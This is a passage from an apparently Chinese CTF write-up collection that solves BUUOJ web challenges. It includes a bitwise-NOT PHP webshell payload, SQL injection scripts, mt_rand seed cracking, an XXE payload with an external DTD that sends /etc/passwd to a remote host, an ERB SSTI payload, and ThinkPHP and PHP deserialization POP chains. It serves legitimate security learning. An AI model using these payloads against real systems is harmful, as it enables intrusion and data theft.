却静的像深山里的古刹我住的小区离公司有一段距离才下雪的那天我甚至还走着回家北京的冬天最可怕的是寒风走到家里耳朵已经硬邦邦好像一碰就会碎在我一头扎进被窝里的时候我却慢慢喜欢上这个古都了我想到雍正皇帝里胤禛在北京的鹅毛大雪里放出十三爷那个拼命十三郎带着令牌取下丰台大营的兵权保了大清江山盛世的延续与稳固那一夜北京的漫天大雪绝不逊于今日而昔人已作古来者尚不能及多么悲哀这个古都承载着太多历史的厚重感特别是下雪的季节我可以想到乾清宫前广场上千百年寂寞的雕龙与铜龟屋檐上的积雪高高在上的鸱吻想到数百年的沧桑与朝代更迭雪停的那天我去了颐和园我记得我等了很久才摇摇摆摆来了一辆公交车车上几乎没有人司机小心翼翼地转动着方向盘在湿滑的道路上缓慢前行窗外白茫茫一片阳光照在雪地上有些刺眼我才低下头颐和园的学生票甚至比地铁票还便宜在昆明湖畔眺望湖面微微泛着夕阳霞光的湖水尚未结冰踩着那些可能被御碾轧过的土地滑了无数跤最后只能扶着湖边的石狮子叹气为什么没穿防滑的鞋子昆明湖这一汪清水见证了光绪皇帝被囚禁十载的蹉跎岁月见证了静安先生誓为先朝而自溺也见证了共和国以来固守与开放的交叠说起来家里有本卫琪著的人间词话典评本想买来瞻仰一下王静安的这篇古典美学巨著没想到全书多是以批判为主我自诩想当文人的黑客其实也只是嘴里说说真到评说文章是非的时候我却张口无词倒是誓死不去发这点确实让我无限感慨中国士大夫的骨气真的是从屈原投水的那一刻就奠定下来的有句话说古往今来中国三大天才死于水其一屈原其二李白其三王国维卫琪对此话颇有不服不纠结王国维是否能够与前二者相提并论我单喜欢他的直白能畅快评说古今词话的人也许无出其右了吧人言可畏人言可畏越到现代越会深深感觉到这句话的正确看到很多事情的发展往往被舆论所左右就越羡慕那些无所畏惧的人不论他们是勇敢还是自负此间人王垠算一个网络上人们对他毁誉参半但确实有本事而又不矫揉做作放胆直言心比天高的只有他一个了那天在昆明湖畔看过夕阳直到天空变的无比深邃我才慢慢往家的方向走耳机放着后弦的昆明湖不知不觉已经十年了不知道这时候他有没有回首望望自己的九公主和安娜是否还能够泼墨造一匹快马追回十年前姑娘后来感觉一切都步入正轨学位证也顺利拿到我匆匆告别了自己的大学后来也遇到了很多事事后有人找我很多人关心你少数人可能不是但出了学校以后又有多少人和事情完全没有目的呢我也考虑了很多去处但一直没有决断倒有念怀旧主也有妄自菲薄之意我希望自己能做出点成绩再去谈其他的所以很久都是闭门不出琢磨东西来到厦门我还了一个愿又许了新的愿望希望我还会再次来还愿我又来到了上次没住够的鼓浪屿订了一间安静的房子只有我一个人在这里能听到的只有远处屋檐下鸟儿叽叽喳喳的鸣叫声远处的喧嚣早已烟消云散即使这只是暂时的站在屋顶的我喝下杯中最后一口水清晨背着行李我乘轮渡离开了鼓浪屿这是我第二次来鼓浪屿谁知道会不会是最后一次我在这里住了三天用三天去寻找了一个答案不知不觉我又想到辜鸿铭与沈子培的那段对话大难临头何以为之世受国恩死生系之';

$s = '_GET';

for ($j = 0; $j < strlen($s); $j++){
    for ($i = 0; $i < mb_strlen($dicts, 'utf-8'); $i++){
        $t = mb_substr($dicts, $i, 1, 'utf-8');
        if ($s[$j] == ~($t[1])){
            echo "~($t{1})=".~($t[1]);
            echo "<br/>";
            break;
        }
    }
}

?>
```

这里好像必须得用 `mb_substr` 和 `mb_strlen` 才行

之后需要构造 `1`, 通过布尔运算可以知道 `[] == []` 的结果为 true, 转换成数字就是 `1`

最终 payload

```php
<?php
$__=[]==[];
$_=~((样)[$__]);
$_.=~((上)[$__]);
$_.=~((了)[$__]);
$_.=~((站)[$__]);
$$_[$__]($$_[$__.$__]);
```


## October 2019 Twice SQL Injection

先注册再登录, username 处存在二次注入, 直接用 union 就行

payload

```python
import requests
import random
import re
import time

url = 'http://a4163eb7-4e58-4c87-aef7-ca1dd2331f37.node4.buuoj.cn:81'

s = requests.Session()

def register(sql):
    time.sleep(0.05)
    payload = "{}' union {} #".format(random.random(), sql)
    print(payload)
    data = {
    'username': payload,
    'password': '1'
    }
    res = s.post(url + '/?action=reg', data=data)
    return payload

def login(username):
    time.sleep(0.05)
    data = {
    'username': username,
    'password': '1'
    }
    res = s.post(url + '/?action=login', data=data)
    result = re.findall(r'<div>(.+?)<\/div>', res.text)[0]
    print(result)


login(register('select flag from flag'))
```

## [b01lers2020]Life on Mars

/static/js/life\_on\_mars.js

```javascript
function get_life(query) {
  $.ajax({
    type: "GET",
    url: "/query?search=" + query,
    data: "{}",
    contentType: "application/json; charset=utf-8",
    dataType: "json",
    cache: false,
    success: function(data) {
      var table_html =
        '<table id="results"><tr><th>Name</th><th>Description</th></tr>';
      $.each(data, function(i, item) {
        table_html +=
          "<tr><td>" + data[i][0] + "</td><td>" + data[i][1] + "</td></tr>";
      });
      table_html += "</table>";

      $("#results").replaceWith(table_html);
    },

    error: function(msg) { }
  });
}
```

感觉是注入, 但是试了好多 payload 都不行, 最后才发现竟然不用闭合引号???

```
http://ce02e88b-d616-4110-b003-ac96d4b4ece2.node4.buuoj.cn:81/query?search=amazonis_planitia union select 1,group_concat(code) from alien_code.code
```


## [GKCTF 2021]easycms

蝉知 cms 7.7, 后台 admin.php

用 admin/12345 弱口令成功登录


模板处可以插 shell, 但是要验证权限


翻了一会在设置里看到了这个选项


取消勾选会也会验证权限, 但是勾选 "密保问题验证" 就不会...


然后去更改密保问题, 翻了半天才发现在左下角


之后去更改模板, 还是会验证文件...

看了 wp 才知道需要先点添加用户来激活这个选项


之后编辑模板, 插入 php 代码, 最后查看 flag


网页有缓存, 记得把访问路径改一改

wp 的另一种解法是利用微信上传二维码来创建验证权限的文件, 这里就不写了

## [MRCTF2020]Ezaudit

www.zip 解压得到 index.php

```php
<?php 
header('Content-type:text/html; charset=utf-8');
error_reporting(0);
if(isset($_POST['login'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $Private_key = $_POST['Private_key'];
    if (($username == '') || ($password == '') ||($Private_key == '')) {
        // 若为空,视为未填写,提示错误,并3秒后返回登录界面
        header('refresh:2; url=login.html');
        echo "用户名、密码、密钥不能为空啦,crispr会让你在2秒后跳转到登录界面的!";
        exit;
}
    else if($Private_key != '*************' )
    {
        header('refresh:2; url=login.html');
        echo "假密钥，咋会让你登录?crispr会让你在2秒后跳转到登录界面的!";
        exit;
    }

    else{
        if($Private_key === '************'){
        $getuser = "SELECT flag FROM user WHERE username= 'crispr' AND password = '$password'".';'; 
        $link=mysql_connect("localhost","root","root");
        mysql_select_db("test",$link);
        $result = mysql_query($getuser);
        while($row=mysql_fetch_assoc($result)){
            echo "<tr><td>".$row["username"]."</td><td>".$row["flag"]."</td><td>";
        }
    }
    }

} 
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
  $Public_key = public_key();
  //$Public_key = KVQP0LdJKRaV3n9D  how to get crispr's private_key???
```

一眼伪随机数

先生成所需参数

```python
d = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
c = 'KVQP0LdJKRaV3n9D'

output = ''

for s in c:
    output += str(d.index(s)) + ' ' + str(d.index(s)) + ' 0 61 '
print(output)
```

爆破


payload

```php
<?php

mt_srand(1775196155);

function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
echo public_key();
echo "<br/>";
echo private_key();
```

登录


## [极客大挑战 2020]Roamphp1-Welcome

get 会 405, 传 post

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```


## [CSAWQual 2019]Web_Unagi(XXE，utf-16绕过)

常规 xxe, 存在 waf, 过滤了 ENTITY SYSTEM file 等关键词

参考文章 [https://xz.aliyun.com/t/4059](https://xz.aliyun.com/t/4059)

这里利用 utf-16be 绕过

打了之后发现回显位置有长度限制, 于是改成远程回显

payload 如下

```xml
?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://ip:port/evil.dtd">
%remote;%int;%send;
]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>alice</name>
<email>alice@fakesite.com</email>
<group>CSAW2019</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>

```

evil.dtd

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:port/?output=%file;'>">
```

转换为 utf-16be

```bash
printf '%s' '<?xml version="1.0" encoding="UTF-16BE"' > test1.xml
cat test.xml | iconv -f utf-8 -t utf-16be >> test1.xml
```


另外也能用双重实体编码绕过, 参考 [https://wiki.wgpsec.org/knowledge/ctf/xxe.html](https://wiki.wgpsec.org/knowledge/ctf/xxe.html)

## [GYCTF2020]Easyphp

www.zip 源码泄露

index.php

```php
<?php
require_once "lib.php";

if(isset($_GET['action'])){
	require_once(__DIR__."/".$_GET['action'].".php");
}
else{
	if($_SESSION['login']==1){
		echo "<script>window.location.href='./index.php?action=update'</script>";
	}
	else{
		echo "<script>window.location.href='./index.php?action=login'</script>";
	}
}
?>
```

lib.php

```php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}
```

login.php

```php
<?php
require_once('lib.php');
?>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>login</title>
<center>
	<form action="login.php" method="post" style="margin-top: 300">
		<h2>百万前端的用户信息管理系统</h2>
		<h3>半成品系统 留后门的程序员已经跑路</h3>
        		<input type="text" name="username" placeholder="UserName" required>
		<br>
		<input type="password" style="margin-top: 20" name="password" placeholder="password" required>
		<br>
		<button style="margin-top:20;" type="submit">登录</button>
		<br>
		大家记得做好防护</img>
		<br>
		<br>
<?php 
$user=new user();
if(isset($_POST['username'])){
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['username'])){
		die("<br>Damn you, hacker!");
	}
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['password'])){
		die("Damn you, hacker!");
	}
	$user->login();
}
?>
	</form>
</center>
```

update.php

```php
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>
```

User 类的 update 会反序列化 getNewInfo() 返回的内容, 而后者内部会将序列化之后的数据用 safe 函数替换, 所以存在反序列化逃逸

然后根据剩下的几个类来构造 pop 链, 最终调用到 `dbCtrl->login($sql)` 来执行任意 sql 语句, 这里直接更改了 admin 的密码

payload

```php
<?php

class User
{
    public $id;
    public $age=null;
    public $nickname=null;

}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;

}

$sql = 'update user set password=md5("admin") where username="admin"';

$d = new dbCtrl();
$d->name = 'x';
$d->password = '1';

$c = new Info();
$c->CtrlCase = $d;

$b = new User();
$b->nickname = $c;
$b->age = $sql;

$a = new User();
$a->nickname = $b;

echo '";s:8:"nickname";'.serialize($a).';}';
```

构造逃逸字符串


发送


## [SCTF2019]Flag Shop

robots.txt 提示 /filebak

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

参考文章

[https://www.sys71m.top/2018/08/03/Ruby_ERB%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5](https://www.sys71m.top/2018/08/03/Ruby_ERB%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5)

细看 /work 路由

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

前面有个正则匹配 `ENV["SECRET"]`, 后面通过 `#{params[:name][0,7]}` 截取 name 参数前 7 位作为 erb 模板输出, 根据文章知道存在 ssti, 但是限制 7 字符, 光 `<%=%>` 就占了 5 个字符

查找后发现 ruby 存在内部变量

[https://m.php.cn/manual/view/20243.html](https://m.php.cn/manual/view/20243.html)

`$'` 表示最后一次匹配成功的字符串后面的字符串, 例如 `helloworld` 匹配了 `h`, 那么 `$'` 即为 `elloworld`

根据这个其实就可以盲注出 SECRET, 但是 wp 直接将 SECRET 置空, 没看懂什么意思


猜测空字符可以匹配所有字符串?

最终 payload

```
<%=$'%>
```

注意 urlencode

```
/work?name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e+is+working&SECRET=x
```


之后就是常规伪造 jwt


## [WMCTF2020]Make PHP Great Again（利用 /proc 目录绕过包含限制）

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

利用 /proc 目录绕过包含限制

[https://www.anquanke.com/post/id/213235](https://www.anquanke.com/post/id/213235)

```
http://b6e240d9-990d-40f7-a32a-34c0d0e150a7.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## [强网杯 2019]Upload

www.tar.gz 源码泄露, ThinkPHP V5.1.35 LTS

/application/web/controller/Register.php

```php
<?php
namespace app\web\controller;
use think\Controller;

class Register extends Controller
{
    public $checker;
    public $registed;

    public function __construct()
    {
        $this->checker=new Index();
    }

    public function register()
    {
        if ($this->checker) {
            if($this->checker->login_check()){
                $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/home";
                $this->redirect($curr_url,302);
                exit();
            }
        }
        if (!empty(input("post.username")) && !empty(input("post.email")) && !empty(input("post.password"))) {
            $email = input("post.email", "", "addslashes");
            $password = input("post.password", "", "addslashes");
            $username = input("post.username", "", "addslashes");
            if($this->check_email($email)) {
                if (empty(db("user")->where("username", $username)->find()) && empty(db("user")->where("email", $email)->find())) {
                    $user_info = ["email" => $email, "password" => md5($password), "username" => $username];
                    if (db("user")->insert($user_info)) {
                        $this->registed = 1;
                        $this->success('Registed successful!', url('../index'));
                    } else {
                        $this->error('Registed failed!', url('../index'));
                    }
                } else {
                    $this->error('Account already exists!', url('../index'));
                }
            }else{
                $this->error('Email illegal!', url('../index'));
            }
        } else {
            $this->error('Something empty!', url('../index'));
        }
    }

    public function check_email($email){
        $pattern = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9-]+(\.[a-z0-9-]+)*(\.[a-z]{2,})$/";
        preg_match($pattern, $email, $matches);
        if(empty($matches)){
            return 0;
        }else{
            return 1;
        }
    }

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }


}
```

/application/web/controller/Profile.php

```php
<?php
namespace app\web\controller;

use think\Controller;

class Profile extends Controller
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __construct()
    {
        $this->checker=new Index();
        $this->upload_menu=md5($_SERVER['REMOTE_ADDR']);
        @chdir("../public/upload");
        if(!is_dir($this->upload_menu)){
            @mkdir($this->upload_menu);
        }
        @chdir($this->upload_menu);
    }

    public function upload_img(){
        if($this->checker){
            if(!$this->checker->login_check()){
                $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
                $this->redirect($curr_url,302);
                exit();
            }
        }

        if(!empty($_FILES)){
            $this->filename_tmp=$_FILES['upload_file']['tmp_name'];
            $this->filename=md5($_FILES['upload_file']['name']).".png";
            $this->ext_check();
        }
        if($this->ext) {
            if(getimagesize($this->filename_tmp)) {
                @copy($this->filename_tmp, $this->filename);
                @unlink($this->filename_tmp);
                $this->img="../upload/$this->upload_menu/$this->filename";
                $this->update_img();
            }else{
                $this->error('Forbidden type!', url('../index'));
            }
        }else{
            $this->error('Unknow file type!', url('../index'));
        }
    }

    public function update_img(){
        $user_info=db('user')->where("ID",$this->checker->profile['ID'])->find();
        if(empty($user_info['img']) && $this->img){
            if(db('user')->where('ID',$user_info['ID'])->data(["img"=>addslashes($this->img)])->update()){
                $this->update_cookie();
                $this->success('Upload img successful!', url('../home'));
            }else{
                $this->error('Upload file failed!', url('../index'));
            }
        }
    }

    public function update_cookie(){
        $this->checker->profile['img']=$this->img;
        cookie("user",base64_encode(serialize($this->checker->profile)),3600);
    }

    public function ext_check(){
        $ext_arr=explode(".",$this->filename);
        $this->ext=end($ext_arr);
        if($this->ext=="png"){
            return 1;
        }else{
            return 0;
        }
    }

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}
```

/application/web/controller/Index.php

```php
<?php
namespace app\web\controller;
use think\Controller;

class Index extends Controller
{
    public $profile;
    public $profile_db;

    public function index()
    {
        if($this->login_check()){
            $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/home";
            $this->redirect($curr_url,302);
            exit();
        }
        return $this->fetch("index");
    }

    public function home(){
        if(!$this->login_check()){
            $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
            $this->redirect($curr_url,302);
            exit();
        }

        if(!$this->check_upload_img()){
            $this->assign("username",$this->profile_db['username']);
            return $this->fetch("upload");
        }else{
            $this->assign("img",$this->profile_db['img']);
            $this->assign("username",$this->profile_db['username']);
            return $this->fetch("home");
        }
    }

    public function login_check(){
        $profile=cookie('user');
        if(!empty($profile)){
            $this->profile=unserialize(base64_decode($profile));
            $this->profile_db=db('user')->where("ID",intval($this->profile['ID']))->find();
            if(array_diff($this->profile_db,$this->profile)==null){
                return 1;
            }else{
                return 0;
            }
        }
    }

    public function check_upload_img(){
        if(!empty($this->profile) && !empty($this->profile_db)){
            if(empty($this->profile_db['img'])){
                return 0;
            }else{
                return 1;
            }
        }
    }

    public function logout(){
        cookie("user",null);
        $curr_url="http://".$_SERVER['HTTP_HOST'].$_SERVER['SCRIPT_NAME']."/index";
        $this->redirect($curr_url,302);
        exit();
    }

    public function __get($name)
    {
        return "";
    }

}
```

login_check 方法会对 cookie 进行反序列化, 测试用已知的 rce 去打都失败了

但是 Register.php 中存在 \_\_destruct, 猜测是要从这里作为入口点自己构造 pop 链

\_\_destruct 访问 checker 的 index 方法, 之后跳转到 Profile 的 \_\_call, 其中的 `{$name}` 为可变变量的形式

然后通过该方法最终执行到 upload_img

这里有意思的是我们并不是要利用 upload_img 来上传 php 文件, 而是要通过这个方法修改服务器上文件的文件名

首先绕过方法中的前面几个 if 判断, 然后利用反序列化来操纵 filename 和 filename_tmp 两个属性, 最终通过 copy 函数修改文件名

payload 如下

```php
<?php

namespace think{
  class Controller{
  }
}

namespace app\web\controller{

  use think\Controller;

  class Profile extends Controller{

    public $checker = false;
    public $ext = true;
    public $filename_tmp = '../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/fb5c81ed3a220004b71069645f112867.png';
    public $filename = '../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/a.php';
    public $index = 'upload_img';

  }

  // class Profile extends Controller{

  //   public $checker = false;
  //   public $ext = true;
  //   public $except = array(
  //     'index' => 'upload_img',
  //     'filename_tmp' => 'xx',
  //     'filename' => 'yy'
  //   );

  // }

  class Register extends Controller{

    public $checker;
    public $registed = false;
  }
}

namespace {

$b = new app\web\controller\Profile();

$a = new app\web\controller\Register();
$a->checker = $b;

echo serialize($a);

}
```

网上有人将两个属性写到 except 数组里面, 然后通过 \_\_get 方法获取, 实际上没有必要, 相关代码我写在注释里面了

```php
O:27:"app\web\controller\Register":2:{s:7:"checker";O:26:"app\web\controller\Profile":5:{s:7:"checker";b:0;s:3:"ext";b:1;s:12:"filename_tmp";s:86:"../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/fb5c81ed3a220004b71069645f112867.png";s:8:"filename";s:55:"../public/upload/c47b21fcf8f0bc8b3920541abd8024fd/a.php";s:5:"index";s:10:"upload_img";}s:8:"registed";b:0;}
```


## [ISITDTU 2019]EasyPHP

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

参考文章

[https://xz.aliyun.com/t/5677](https://xz.aliyun.com/t/5677)

[https://blog.csdn.net/mochu7777777/article/details/105786114](https://blog.csdn.net/mochu7777777/article/details/105786114)

懒得看了... 这种题实在没有什么意思

```
http://1044a656-b805-4a2e-8555-64b2a5ba07c1.node4.buuoj.cn:81/?_=((%8d%9c%97%a0%88%8d%97%8d%9c%a0%a0)^(%9a%97%9b%88%a0%9a%9b%9b%8d%9c%9a)^(%9b%9c%9c%a0%88%9b%9c%9c%9c%a0%a0)^(%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff%ff))(((%a0%97%8d)^(%9a%9a%9b)^(%a0%9c%8d)^(%ff%ff%ff))(((%8d%a0%88%97%8d%9b%9c)^(%9a%9c%8d%9a%9b%9a%8d)^(%9b%a0%9b%9c%8d%97%9c)^(%ff%ff%ff%ff%ff%ff%ff))(%d1^%ff)));
```

## [HarekazeCTF2019]Avatar Uploader 1

源码 buu 没给, 得自己从 GitHub 上下

[https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/tree/master/avatar_uploader_1/attachments](https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/tree/master/avatar_uploader_1/attachments)

然后这个题目其实是有两个部分, 这道是第一部分, 而第二部分 buu 被单独拆成另一道题了 (遇到的时候再写)

关键文件 upload.php

```php
<?php
error_reporting(0);

require_once('config.php');
require_once('lib/util.php');
require_once('lib/session.php');

$session = new SecureClientSession(CLIENT_SESSION_ID, SECRET_KEY);

// check whether file is uploaded
if (!file_exists($_FILES['file']['tmp_name']) || !is_uploaded_file($_FILES['file']['tmp_name'])) {
  error('No file was uploaded.');
}

// check file size
if ($_FILES['file']['size'] > 256000) {
  error('Uploaded file is too large.');
}

// check file type
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$type = finfo_file($finfo, $_FILES['file']['tmp_name']);
finfo_close($finfo);
if (!in_array($type, ['image/png'])) {
  error('Uploaded file is not PNG format.');
}

// check file width/height
$size = getimagesize($_FILES['file']['tmp_name']);
if ($size[0] > 256 || $size[1] > 256) {
  error('Uploaded image is too large.');
}
if ($size[2] !== IMAGETYPE_PNG) {
  // I hope this never happens...
  error('What happened...? OK, the flag for part 1 is: <code>' . getenv('FLAG1') . '</code>');
}

// ok
$filename = bin2hex(random_bytes(4)) . '.png';
move_uploaded_file($_FILES['file']['tmp_name'], UPLOAD_DIR . '/' . $filename);

$session->set('avatar', $filename);
flash('info', 'Your avatar has been successfully updated!');
redirect('/');
```

要求 finfo_file 判断为 png, 但是 getimagesize 判断不为 png

[https://www.php.net/manual/zh/function.finfo-file.php](https://www.php.net/manual/zh/function.finfo-file.php)

[https://www.php.net/manual/zh/function.getimagesize](https://www.php.net/manual/zh/function.getimagesize)

有一处 notes

```
